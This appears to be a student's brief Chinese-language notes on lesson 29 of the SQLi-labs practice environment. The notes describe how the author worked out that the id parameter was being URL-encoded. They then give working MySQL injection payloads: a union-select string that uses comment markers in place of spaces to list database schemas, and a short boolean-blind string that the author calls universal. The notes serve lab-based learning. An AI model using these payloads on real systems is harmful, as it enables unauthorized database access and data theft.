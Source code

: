 # Lesson-29
```
明注-,-替换空格-,-Bool盲注
```

这道题发现页面中会显示出GET过去的参数
不过好像没有URL解码...
好奇怪 , 感觉好像是传过去之后又被编码了 , 还没有看源码 , 暂时不能确定
这样的话 , 说明执行的SQL语句就是URL编码以后的 , 这样肯定是不行的
用Burp抓包重放试试
---
> 后记 :
URL编码过滤了空格等等特殊字符 , 可以通过这样验证存在注入点
```
http://127.0.0.1/Less-29/?id=0'union/**/select/**/1,1,1/**/--+
http://127.0.0.1/Less-29/?id=0%27union/**/select/**/1,group_concat(schema_name),1/**/from/**/information_schema.schemata--+
这样就可以dump数据了
```

---
>后记 : 
```
还是可以利用前面的Payload通杀盲注
http://127.0.0.1/Less-28a/?id=0%27%20or()or%20%27%27=%271
```
```
后来发现这个Payload还可以简化
在mysql中也有弱类型机制 , '0' 和 '1' 可以分别表示假和真
简化后 :
?id=0'||()||'0
```

